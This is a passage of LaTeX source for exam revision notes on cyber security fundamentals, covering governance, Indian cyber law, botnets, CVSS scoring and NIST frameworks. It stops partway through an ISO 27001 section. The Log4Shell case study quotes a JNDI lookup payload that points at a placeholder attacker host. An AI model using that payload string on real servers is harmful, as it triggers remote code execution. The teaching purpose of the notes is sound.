\documentclass[12pt,a4paper]{article}
\usepackage[a4paper, margin=0.8in, headheight=14pt]{geometry}
\usepackage{fontspec}
\usepackage{unicode-math}
\setmainfont{TeX Gyre Pagella}
\setmonofont[Scale=0.88]{TeX Gyre Cursor}
\setmathfont{Latin Modern Math}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{array}
\usepackage{amsmath}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, calc, fit, decorations.pathreplacing, decorations.pathmorphing, patterns, backgrounds}
\usepackage[american]{circuitikz}
\usepackage{tcolorbox}
\tcbuselibrary{skins, breakable}
\usepackage{etoolbox}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage{microtype}
\hyphenpenalty=10000
\exhyphenpenalty=10000
\sloppy
\usepackage{caption}
\usepackage{setspace}
\usepackage{multirow}
\usepackage{tocloft}
\newcommand{\Q}[1]{\textbf{#1}\par\noindent\ignorespaces}
\definecolor{myred}{RGB}{196,30,58}
\definecolor{mydark}{RGB}{30,30,50}
\definecolor{mygreen}{RGB}{14,120,80}
\definecolor{myteal}{RGB}{0,130,140}
\definecolor{myamber}{RGB}{180,100,0}
\definecolor{mypurple}{RGB}{100,30,160}
\definecolor{mygray}{RGB}{246,247,249}
\definecolor{mgframe}{RGB}{180,185,200}
\definecolor{watermark}{RGB}{145,150,170}
\definecolor{hdrred}{RGB}{250,232,235}
\definecolor{hdrgreen}{RGB}{220,244,233}
\definecolor{hdrteal}{RGB}{220,242,244}
\definecolor{hdramber}{RGB}{253,242,215}
\definecolor{hdrpurple}{RGB}{238,228,255}
\definecolor{hdrgray}{RGB}{238,240,245}
\definecolor{rowalt}{RGB}{250,251,253}
\AfterEndEnvironment{tcolorbox}{\color{mydark}}

\titleformat{\section}{\large\bfseries\color{myred}}{\thesection.}{0.5em}{}[\vspace{1pt}{\color{myred}\rule{\linewidth}{0.8pt}}]
\titleformat{\subsection}{\normalsize\bfseries\color{myteal}}{\thesubsection}{0.5em}{}
\titlespacing*{\section}{0pt}{18pt}{7pt}
\titlespacing*{\subsection}{0pt}{11pt}{4pt}
\setlength{\parindent}{0pt}
\setlength{\parskip}{4pt}
\renewcommand{\cfttoctitlefont}{\large\bfseries\color{myred}}
\renewcommand{\cftaftertoctitle}{\par\noindent{\color{myred}\rule{\linewidth}{0.8pt}}}
\setlength{\cftbeforetoctitleskip}{0pt}
\setlength{\cftaftertoctitleskip}{6pt}
\renewcommand{\cftsecfont}{\normalsize\bfseries\color{mydark}}
\renewcommand{\cftsecpagefont}{\normalsize\bfseries\color{mydark}}
\renewcommand{\cftsecleader}{\cftdotfill{\cftdotsep}}
\setlength{\cftbeforesecskip}{7pt}
\renewcommand{\cftsubsecfont}{\small\color{mydark}}
\renewcommand{\cftsubsecpagefont}{\small\color{mydark}}
\setlength{\cftbeforesubsecskip}{3pt}
\setlength{\cftsubsecindent}{1.4em}
\renewcommand{\cftpartfont}{\normalsize\bfseries\color{myteal}}
\renewcommand{\cftpartpagefont}{\normalsize\bfseries\color{myteal}}
\setlength{\cftbeforepartskip}{14pt}
\renewcommand{\arraystretch}{1.45}
\setlength{\tabcolsep}{6pt}
\arrayrulecolor{mydark}
\newcolumntype{B}[1]{>{\small\bfseries\raggedright\arraybackslash}m{#1}}
\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}
\newcolumntype{Y}{>{\small\raggedright\arraybackslash}X}
\renewcommand{\tabularxcolumn}[1]{m{#1}}
\newcommand{\currmodule}{Module 1}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\small\color{myred}\textbf{OE-EC803C}\;\color{mydark}--- Cyber Security}
\fancyhead[R]{\small\color{myteal}\textbf{\currmodule\ Notes}}
\fancyfoot[C]{\small\color{mydark}\thepage}
\fancyfoot[R]{\small\color{watermark}\textit{\copyright\ Biraj}}
\renewcommand{\headrulewidth}{0.5pt}
\renewcommand{\footrulewidth}{0.3pt}

\hypersetup{colorlinks=true, linkcolor=myteal, urlcolor=myteal,
  pdfauthor={Biraj Sarkar},
  pdftitle={OE-EC803C --- Combined Notes}}

\tcbset{
  tikzbox/.style={
    colback=mygray, colframe=mgframe, boxrule=0.6pt, arc=4pt,
    left=8pt, right=8pt, top=6pt, bottom=6pt,
    colbacktitle=mgframe, coltitle=mydark,
    fonttitle=\small\bfseries
  },
  defbox/.style={
    colback=hdrgreen, colframe=mygreen, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=mygreen, coltitle=white,
    fonttitle=\small\bfseries
  },
  formulabox/.style={
    colback=hdrteal, colframe=myteal, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=7pt, bottom=7pt,
    colbacktitle=myteal, coltitle=white,
    fonttitle=\small\bfseries
  },
  examplebox/.style={
    colback=hdramber, colframe=myamber, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=myamber, coltitle=white,
    fonttitle=\small\bfseries
  },
  masonbox/.style={
    colback=hdrpurple, colframe=mypurple, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=mypurple, coltitle=white,
    fonttitle=\small\bfseries
  },
  exambox/.style={
    colback=hdrpurple, colframe=mypurple, boxrule=1pt, arc=5pt,
    left=10pt, right=10pt, top=8pt, bottom=8pt,
    colbacktitle=mypurple, coltitle=white, fonttitle=\bfseries,
    breakable, title after break={\textbf{Frequently Asked / Viva Questions (contd.)}}
  }
}
\tcbset{breakable}
\tcbset{coltext=mydark}
\tcbset{after={\color{mydark}}}

\tikzset{
  block/.style={rectangle, draw=myteal, fill=hdrteal,
    text width=2.2cm, align=center, minimum height=0.9cm,
    font=\small, rounded corners=3pt, line width=0.7pt},
  redblock/.style={rectangle, draw=myred, fill=hdrred,
    text width=2.2cm, align=center, minimum height=0.9cm,
    font=\small, rounded corners=3pt, line width=0.7pt},
  arrow/.style={-Stealth, thick, color=mydark},
  redarrow/.style={-Stealth, thick, color=myred},
  line/.style={thick, color=mydark}
}

\newcommand{\modulestart}[2]{%
  \clearpage
  \renewcommand{\currmodule}{Module #1}%
  \renewcommand{\theHsection}{mod#1.\arabic{section}}%
  \renewcommand{\theHsubsection}{\theHsection.\arabic{subsection}}%
  \renewcommand{\theHsubsubsection}{\theHsubsection.\arabic{subsubsection}}%
  \phantomsection
  \addcontentsline{toc}{part}{Module #1: #2}%
  \setcounter{section}{0}%
  \begin{center}
    \vspace*{1.0cm}
    {\Huge\bfseries\color{myred} Module #1}\\[10pt]
    {\Large\bfseries\color{mydark} #2}\\[10pt]
    {\color{myred}\rule{0.55\linewidth}{1.2pt}}
  \end{center}
  \vspace{14pt}
}
\begin{document}

\thispagestyle{empty}

% ─── Page Border (TikZ Overlay) ────────────────────────────────────────────────
\begin{tikzpicture}[remember picture, overlay]
  % Outer border (fine line in mgframe)
  \draw[color=mgframe, line width=1.5pt] 
    ($(current page.north west) + (0.6in, -0.6in)$) rectangle 
    ($(current page.south east) + (-0.6in, 0.6in)$);
  % Inner border (finer accent line in myred)
  \draw[color=myred, line width=0.8pt] 
    ($(current page.north west) + (0.65in, -0.65in)$) rectangle 
    ($(current page.south east) + (-0.65in, 0.65in)$);
\end{tikzpicture}

\vspace*{1.0cm}
\begin{center}
  {\Huge\bfseries\color{myred} OE-EC803C}\\[10pt]
  {\LARGE\bfseries\color{mydark} Cyber Security}\\[20pt]
  {\color{myred}\rule{0.7\linewidth}{1.5pt}}\\[18pt]
  {\Large\color{myteal}\textbf{Combined Module Notes}}\\[8pt]
  {\large\color{mydark} Modules 1 -- 4}\\[40pt]
  {\normalsize\color{mydark} Semester VIII \quad$\bullet$\quad ECE \quad$\bullet$\quad 3 Credits}\\[12pt]
  {\normalsize\color{mydark} CGEC \;$|$\; B.Tech ECE (2023--27)}
\end{center}
\vspace{1.0cm}
\begin{center}
  \begin{tcolorbox}[colback=mygray, colframe=mgframe, boxrule=0.5pt, arc=3pt, width=0.85\linewidth]
    \centering\small\color{mydark}
    \textbf{Disclaimer / Study Guide Notice:}\\
    These are condensed \textbf{Short Notes} focusing on core theory, key formulas, block/circuit diagrams, and standard viva Q\&As for university exam revision. Exhaustive numerical practice problems and derivation edge cases are not covered. This serves as a quick-revision reference guide for students.
  \end{tcolorbox}
\end{center}
\vfill
\vspace{0.6cm}
\begin{center}
  {\large\bfseries\color{mypurple} Biraj Sarkar}\\[16pt]
  {\footnotesize\color{watermark}\textbf{IN ASSOCIATION WITH}}\\[8pt]
  {\small\bfseries\color{mydark} MAKAUT Wingman \quad$\bullet$\quad MAKAUT Future Minds}\\[12pt]
  {\large\bfseries\color{myteal} Cooch Behar Government Engineering College}
\end{center}
\vfill
\begin{center}{\small\color{watermark}\textit{Exam-Ready Notes}}\end{center}
\clearpage

\hypersetup{linkcolor=mydark}
\tableofcontents
\hypersetup{linkcolor=myteal}
\clearpage

% -- Module 1 -----------------------------------------------------------------
\modulestart{1}{Cyber Security Fundamentals \& Evolution}

\section{Cyber Security Fundamentals \& Evolution}
% ===============================================================================

Cyber Security encompasses the technologies, processes, and governance policies designed to protect networks, computer devices, software applications, and critical data from unauthorized access, cyber attacks, or service disruption.

\begin{tcolorbox}[defbox, title={\textbf{Definition: The CIA Triad \& Parkerian Hexad}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Confidentiality:} Ensuring data is accessible only to authorized entities. Enforced via AES-256 encryption, access control lists (ACLs), and TLS protocols.
  \item \textbf{Integrity:} Protecting data accuracy against unauthorized modification or tampering. Enforced via SHA-256 cryptographic hashes and digital signatures.
  \item \textbf{Availability:} Guaranteeing timely, uninterrupted system access for authorized users. Enforced via redundant hardware, load balancing, and DDoS mitigations.
  \item \textbf{Parkerian Hexad Extensions:} Extends CIA triad by adding \textit{Authenticity} (verifying identity), \textit{Utility} (usefulness of data), and \textit{Possession/Control} (physical/logical custody).
\end{itemize}
\end{tcolorbox}

\subsection{Generational Evolution of Cyber Threats}
Cyber threat vectors have evolved over four distinct historical eras:
\begin{enumerate}[leftmargin=*, itemsep=4pt]
  \item \textbf{First Generation (1980s--1990s):} Standalone boot-sector viruses and early worms (Brain Virus, Morris Worm) transmitted via floppy disks. Defense relied on signature-based antivirus scanning.
  \item \textbf{Second Generation (2000s):} Network-propagating worms and mass-mailing malware (ILOVEYOU, Code Red, Slammer). Introduced stateful firewalls and Intrusion Detection Systems (IDS).
  \item \textbf{Third Generation (2010s):} Advanced Persistent Threats (APTs), polymorphic ransomware (WannaCry, NotPetya), and distributed botnets. Introduced Next-Generation Firewalls (NGFW) and Endpoint Detection \& Response (EDR).
  \item \textbf{Fourth Generation (2020s--Present):} AI-driven deepfake social engineering, zero-day supply chain breaches (SolarWinds), and cloud-native infrastructure targeted attacks.
\end{enumerate}

\subsection{Defense-in-Depth Architecture}
Defense-in-Depth enforces multiple layered security controls across the enterprise:

\begin{tcolorbox}[tikzbox, title={Defense-in-Depth Layered Model}]
\centering

\begin{tikzpicture}[scale=0.9]
  \draw[fill=hdrred, draw=myred, line width=0.8pt] (0,0) circle (3.2cm);
  \draw[fill=hdramber, draw=myamber, line width=0.8pt] (0,0) circle (2.5cm);
  \draw[fill=hdrteal, draw=myteal, line width=0.8pt] (0,0) circle (1.8cm);
  \draw[fill=hdrpurple, draw=mypurple, line width=0.8pt] (0,0) circle (1.1cm);

  \node[font=\small\bfseries\color{myred}] at (0,2.85) {Perimeter Security (Firewall / WAF)};
  \node[font=\small\bfseries\color{myamber}] at (0,2.15) {Network Layer (IDS/IPS / VLANs)};
  \node[font=\small\bfseries\color{myteal}] at (0,1.45) {Host Layer (EDR / Patching)};
  \node[font=\small\bfseries\color{mypurple}] at (0,0.65) {Data Layer};
  \node[font=\scriptsize\bfseries\color{mypurple}] at (0,0.2) {(AES-256)};
\end{tikzpicture}
\end{tcolorbox}

% ===============================================================================
\section{Cyber Security Policy \& Governance Domains}
% ===============================================================================

\begin{tcolorbox}[defbox, title={\textbf{Definition: Security Policy Hierarchy}}]
A \textbf{Security Policy} defines mandatory rules establishing governance boundaries. Governance follows a strict three-tier hierarchy:
\end{tcolorbox}

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.0cm}|Y|Y|}
\hline
\textbf{Governance Tier} & \textbf{Primary Objective} & \textbf{Audience \& Enforcement} \\
\hline
Strategy & Defines long-term cybersecurity vision, risk posture, and 3-to-5 year strategic roadmaps. & Executive Board, CISO, CIO. \\
\hline
Policy & Establishes mandatory compliance rules, responsibilities, and operational boundaries. & All Employees, Contractors, System Admins. \\
\hline
Procedure & Standard Operating Procedures (SOPs) detailing step-by-step technical execution. & IT Operations, Security Engineers, Helpdesk. \\
\hline
\end{tabularx}}

\subsection{Strategy Versus Policy}
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Cyber Strategy:} High-level direction defining risk tolerance, budget allocation, and long-term security transformation goals.
  \item \textbf{Enterprise Policy:} Specific, enforceable rules dictating daily behavior, access rights, and technical compliance boundaries.
\end{itemize}

\subsection{Key Operational Policy Domains}
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Acceptable Use Policy (AUP):} Specifies acceptable employee behavior regarding corporate hardware, internet browsing, and email usage.
  \item \textbf{Access Control Policy:} Enforces Role-Based Access Control (RBAC), Multi-Factor Authentication (MFA), and the Principle of Least Privilege.
  \item \textbf{Data Classification Policy:} Categorizes data into Public, Internal, Confidential, and Restricted tiers to determine required encryption controls.
  \item \textbf{Incident Response Policy:} Outlines 6-phase incident response steps: Preparation $\to$ Identification $\to$ Containment $\to$ Eradication $\to$ Recovery $\to$ Lessons Learned.
\end{itemize}

% ===============================================================================
\section{Laws, Regulations \& Regulatory Compliance}
% ===============================================================================

Cyber policy must align strictly with statutory legal frameworks:

\begin{tcolorbox}[defbox, title={\textbf{Detailed Indian IT Act 2000 Section Breakdown}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Section 43:} Penalty for damaging computer systems, unauthorized downloading, or introducing virus contaminants (fine up to INR 1 Crore).
  \item \textbf{Section 65:} Punishment for tampering with computer source documents (imprisonment up to 3 years or fine up to INR 2 Lakhs).
  \item \textbf{Section 66:} Hacking with computer system (dishonestly or fraudulently damaging system data).
  \item \textbf{Section 66B / 66C / 66D:} Punishment for receiving stolen computer resource, identity theft, and cheating by impersonation using computer resources.
  \item \textbf{Section 66E / 66F:} Punishment for capturing/publishing private images without consent, and \textbf{Cyber Terrorism} (denying access to critical national infrastructure with intent to threaten national unity; penalty: \textbf{Life Imprisonment}).
  \item \textbf{Section 79:} Intermediary liability safe-harbor guidelines requiring platforms (e.g. social media) to observe due diligence.
\end{itemize}
\end{tcolorbox}

% ===============================================================================
\section{Technology Operations, Configuration \& Productivity}
% ===============================================================================

System hardening and technology configuration reduce an asset's attack surface while balancing operational productivity:

\begin{enumerate}[leftmargin=*, itemsep=4pt]
  \item \textbf{Disabling Default Credentials \& Unused Ports:} Changing default administrative passwords (e.g. `admin/admin`) and closing unnecessary open ports (e.g. disabling Telnet port 23 in favor of SSH port 22).
  \item \textbf{Automated Patch Management:} Deploying centralized patch management (e.g. WSUS) to test and push vendor security updates within strict SLAs.
  \item \textbf{Configuration Baselining:} Utilizing Center for Internet Security (CIS) Benchmarks to lock down OS configurations via Group Policy Objects (GPO).
  \item \textbf{Productivity vs Security Tradeoff:} Overly stringent security controls (e.g. complex 30-day password changes, blocked USB ports) can hinder employee productivity, prompting workers to seek unsafe workaround solutions ("Shadow IT"). Effective security policies optimize usability alongside security.
\end{enumerate}

% ===============================================================================
\section{E-Commerce, Counter Measures Challenges \& Botnets}
% ===============================================================================

\subsection{E-Commerce Counter Measures Challenges}
E-commerce infrastructure connects web servers, payment gateways, and backend databases, introducing unique defense challenges:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Dynamic Attack Vectors:} Web Application Firewall (WAF) bypasses, SQL injection, Cross-Site Scripting (XSS), and automated credential stuffing.
  \item \textbf{Zero-Downtime Requirement:} Countermeasures must inspect and mitigate attack traffic in real-time without latency or service downtime for legitimate customers.
\end{itemize}

\subsection{Botnets \& C2 Architecture}
A \textbf{Botnet} is a network of compromised internet-connected devices (bots) controlled remotely by a Botmaster via a Command and Control (C2) server.

\begin{tcolorbox}[tikzbox, title={Botnet Command and Control (C2) Flow}]
\centering

\begin{tikzpicture}[node distance=1.2cm and 1.5cm,
  bm/.style={rectangle, draw=myred, fill=hdrred, text width=2.2cm, align=center, minimum height=0.8cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  c2/.style={rectangle, draw=mypurple, fill=hdrpurple, text width=2.4cm, align=center, minimum height=0.8cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  bot/.style={circle, draw=myamber, fill=hdramber, align=center, minimum size=0.75cm, font=\scriptsize\bfseries, line width=0.7pt},
  tgt/.style={rectangle, draw=myteal, fill=hdrteal, text width=2.0cm, align=center, minimum height=0.8cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  arrow/.style={-Stealth, thick, color=mydark},
  redarrow/.style={-Stealth, thick, color=myred}]

  \node[bm] (b1) at (0,2.2) {Botmaster};
  \node[c2] (c1) at (3.8,2.2) {C2 Server};
  \node[bot] (z1) at (1.8,0) {Bot 1};
  \node[bot] (z2) at (3.8,0) {Bot 2};
  \node[bot] (z3) at (5.8,0) {Bot 3};
  \node[tgt] (v1) at (3.8,-2.0) {Victim Server};

  \draw[redarrow] (b1) -- node[above, font=\scriptsize] {Attack Order} (c1);
  \draw[arrow] (c1) -- (z1);
  \draw[arrow] (c1) -- (z2);
  \draw[arrow] (c1) -- (z3);
  \draw[redarrow, line width=1.1pt] (z1) -- (v1);
  \draw[redarrow, line width=1.1pt] (z2) -- node[right, font=\scriptsize] {DDoS Flood} (v1);
  \draw[redarrow, line width=1.1pt] (z3) -- (v1);

\end{tikzpicture}
\end{tcolorbox}

\begin{tcolorbox}[examplebox, title={\textbf{Real-World Case Study: Mirai Botnet Attack (2016)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Infection Vector:} Mirai scanned the public internet for vulnerable IoT devices (CCTV cameras, home routers) protected only by 60 factory default username/password combinations.
  \item \textbf{Execution:} Infected over 600,000 IoT devices, building a massive distributed botnet without user knowledge.
  \item \textbf{Impact:} Executed a record-breaking $1.2\text{ Tbps}$ DNS SYN flood against Dyn DNS provider, knocking offline major platforms including Twitter, Netflix, Reddit, and Spotify across the US East Coast.
\end{enumerate}
\end{tcolorbox}

% ═══════════════════════════════════════════════════════════════════════════════
% QUICK REVISION PAGE
% ═══════════════════════════════════════════════════════════════════════════════
\newpage
\begin{center}
  {\large\bfseries\color{myred} Quick Revision --- Module 1}\\[3pt]
  {\small\color{mydark} Introduction to Cyber Security \& Policy $|$ OE-EC803C}
\end{center}
\noindent{\color{myred}\rule{\linewidth}{1.2pt}}
\vspace{4pt}

\begin{tcolorbox}[formulabox, title={\textbf{Key Concepts and Metrics at a Glance}}]
\renewcommand{\arraystretch}{1.35}
\begin{tabularx}{\linewidth}{B{4.8cm} X}
CIA Triad & Confidentiality (AES), Integrity (SHA-256), Availability (Redundancy/DDoS defense). \\[3pt]
Section 66F IT Act & Indian cyber law prescribing Life Imprisonment for Cyber Terrorism. \\[3pt]
Mirai Botnet & IoT botnet exploit utilizing default credentials to generate $1.2\text{ Tbps}$ DDoS attacks. \\[3pt]
Defense-in-Depth & Multi-layered security (Perimeter $\to$ Network $\to$ Host $\to$ Application $\to$ Data). \\[3pt]
AUP Policy & Acceptable Use Policy governing permissible workplace IT resource usage.
\end{tabularx}
\end{tcolorbox}

\begin{tcolorbox}[defbox, title={\textbf{One-Line Definitions}}]
\begin{itemize}[leftmargin=*, itemsep=2pt, topsep=0pt]
  \item \textbf{System Hardening:} Disabling unnecessary services and ports to minimize vulnerability attack surface.
  \item \textbf{C2 Server:} Centralized command server used by botmasters to send instructions to infected bots.
  \item \textbf{Parkerian Hexad:} Security model expanding CIA with Authenticity, Utility, and Possession.
  \item \textbf{Intermediary Safe Harbor:} Legal protection for web platforms under Section 79 of Indian IT Act.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[exambox, title={\textbf{Frequently Asked / Viva Questions}}]
\begin{enumerate}[leftmargin=*, label=\textbf{Q\arabic*.}, itemsep=5pt, topsep=0pt]
  \item \Q{Define the CIA Triad and give one technical control for each pillar.}
        Confidentiality (AES-256 encryption), Integrity (SHA-256 hashing), Availability (load balancing and DDoS mitigations).

  \item \Q{Differentiate between a Security Policy, Strategy, and Procedure.}
        Strategy is executive vision; Policy is mandatory compliance rules; Procedure is step-by-step technical execution instructions.

  \item \Q{What penalty does Section 66F of the Indian IT Act 2000 impose?}
        Life imprisonment for committing Cyber Terrorism against critical national infrastructure.

  \item \Q{Explain the architecture of a Botnet Command and Control (C2) server.}
        The botmaster issues commands to the centralized C2 server, which relays orders to thousands of infected zombie bots to execute attacks.

  \item \Q{What is System Hardening and why is it important?}
        The process of locking down OS configurations, disabling unused ports/services, and applying security patches to minimize attack surface.

  \item \Q{Describe the Mirai Botnet case study of 2016.}
        Mirai compromised 600,000+ IoT devices using factory default passwords, generating a $1.2\text{ Tbps}$ DDoS attack that knocked Dyn DNS offline.

  \item \Q{What is an Acceptable Use Policy (AUP)?}
        A mandatory document defining acceptable and prohibited employee activities on corporate networks, laptops, and internet channels.

  \item \Q{Explain the Defense-in-Depth security model.}
        Deploying multiple redundant security layers (firewall, network IDS, host EDR, data encryption) so if one layer fails, subsequent layers block the attack.

  \item \Q{What is Section 43 of the Indian IT Act?}
        Imposes civil liability and damages up to INR 1 Crore for unauthorized system access, downloading data, or inserting malware.

  \item \Q{What are the 6 phases of Incident Response?}
        Preparation $\to$ Identification $\to$ Containment $\to$ Eradication $\to$ Recovery $\to$ Lessons Learned.

  \item \Q{Explain the Parkerian Hexad framework.}
        An expanded security framework adding Authenticity, Utility, and Possession/Control to the traditional CIA triad.

  \item \Q{Why is attribution difficult in cyber crime investigations?}
        Attackers route malicious traffic through encrypted Tor nodes, VPN proxies, and spoofed IP headers across multi-national jurisdictions.

  \item \Q{What is the Principle of Least Privilege?}
        Granting users and service accounts only the minimum access rights needed to perform their assigned work tasks.

  \item \Q{Explain the threat of Fourth-Generation cyber attacks.}
        AI-driven deepfake phishing, automated zero-day exploit discovery, and targeted supply chain software breaches.

  \item \Q{What is Section 79 of the Indian IT Act?}
        Provides safe-harbor immunity to network intermediaries (ISPs, social media platforms) if they observe government due diligence.
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[tikzbox, title={Summary Comparison: Cyber Security Governance Tiers}]
\centering
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{2.8cm}|Y|Y|Y|}
\hline
\textbf{Governance Tier} & \textbf{Mandatory Level} & \textbf{Focus Area} & \textbf{Revision Cycle} \\
\hline
Strategy & Visionary & Business Alignment & 3 to 5 Years \\
\hline
Policy & Mandatory & Governance Rules & Annual Review \\
\hline
Procedure & Mandatory & Technical Steps & Continuous / Quarterly \\
\hline
Guideline & Optional & Best Practice Advice & As Needed \\
\hline
\end{tabularx}}
\end{tcolorbox}


% -- Module 2 -----------------------------------------------------------------
\modulestart{2}{Cyber Security Metrics \& Vulnerability Counting}

\section{Cyber Security Metrics \& Vulnerability Counting}
% ===============================================================================

Cyber Security Metrics quantify the effectiveness of an enterprise security management system and provide decision-makers with actionable performance indicators.

\begin{tcolorbox}[defbox, title={\textbf{Definition: Operational Security Metrics \& Vulnerability Counting}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Mean Time to Detect (MTTD):} Average time elapsed between a security compromise occurring and its detection by Security Operations Center (SOC) analysts.
  \item \textbf{Mean Time to Respond/Remediate (MTTR):} Average time required to contain, eradicate, and restore systems after a verified security incident.
  \item \textbf{Counting Vulnerabilities:} Systematic quantification of software security flaws across an enterprise. Standardized using Common Vulnerabilities and Exposures (CVE) IDs cataloged in the NIST National Vulnerability Database (NVD).
  \item \textbf{Common Vulnerability Scoring System (CVSS):} Open industry standard for measuring software flaw severity ($0.0\text{ to }10.0$ scale).
\end{itemize}
\end{tcolorbox}

\subsection{CVSS v3.1 Metric Vectors}
CVSS computes a base score combining Exploitability and Impact metrics:
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Attack Vector (AV):} Network (N), Adjacent (A), Local (L), Physical (P).
  \item \textbf{Attack Complexity (AC):} Low (L) vs High (H).
  \item \textbf{Privileges Required (PR):} None (N), Low (L), High (H).
  \item \textbf{User Interaction (UI):} None (N) vs Required (R).
  \item \textbf{Scope (S):} Unchanged (U) vs Changed (C).
  \item \textbf{CIA Impact (C/I/A):} High (H), Low (L), None (N).
\end{enumerate}

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.2cm}|B{2.8cm}|Y|}
\hline
\textbf{CVSS Score Range} & \textbf{Severity Rating} & \textbf{SLA Patching Requirement} \\
\hline
0.0 & None & No vulnerability action required. \\
\hline
0.1 -- 3.9 & Low & Remediate during routine quarterly maintenance. \\
\hline
4.0 -- 6.9 & Medium & Apply vendor patch within 30 days. \\
\hline
7.0 -- 8.9 & High & Apply vendor security update within 7 days. \\
\hline
9.0 -- 10.0 & Critical & Emergency hotfix required within 24--48 hours. \\
\hline
\end{tabularx}}

\begin{tcolorbox}[examplebox, title={\textbf{Real-World Case Study: Log4Shell Vulnerability (CVE-2021-44228)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{CVSS Rating:} Perfect \textbf{10.0 Critical} score (`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`).
  \item \textbf{Flaw Mechanism:} Apache Log4j2 Java logging library improperly parsed JNDI lookups (e.g. `\${jndi:ldap://attacker.com/a}`).
  \item \textbf{Impact:} Allowed unauthenticated attackers to execute arbitrary Remote Code Execution (RCE) on millions of enterprise web servers worldwide with a single HTTP text string.
\end{enumerate}
\end{tcolorbox}

% ===============================================================================
\section{Security Frameworks \& Guidance for Decision-Makers}
% ===============================================================================

Enterprise security frameworks provide structured guidelines to establish, audit, and maintain security baselines for executive decision-makers.

\begin{tcolorbox}[tikzbox, title={NIST Cybersecurity Framework (CSF) 5 Core Cycle}]
\centering

\begin{tikzpicture}[node distance=0.3cm and 0.5cm,
  fnnode/.style={rectangle, draw=myteal, fill=hdrteal, text width=2.2cm, align=center, minimum height=0.9cm, font=\small\bfseries, rounded corners=4pt, line width=0.8pt},
  arrow/.style={-Stealth, thick, color=myred, line width=1.1pt}]

  \node[fnnode] (id) at (0,0) {IDENTIFY\\(Asset/Risk)};
  \node[fnnode] (pr) at (2.7,0) {PROTECT\\(Safeguards)};
  \node[fnnode] (dt) at (5.4,0) {DETECT\\(Monitoring)};
  \node[fnnode] (rs) at (8.1,0) {RESPOND\\(Containment)};
  \node[fnnode] (rc) at (10.8,0) {RECOVER\\(Restoration)};

  \draw[arrow] (id) -- (pr);
  \draw[arrow] (pr) -- (dt);
  \draw[arrow] (dt) -- (rs);
  \draw[arrow] (rs) -- (rc);

\end{tikzpicture}
\end{tcolorbox}

\subsection{ISO/IEC 27001 ISMS Controls}
ISO/IEC 27001 is the international certifiable standard for an Information Security Management System (ISMS):
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Plan-Do-Check-Act (PDCA) Cycle:} Continuous security governance improvement model.
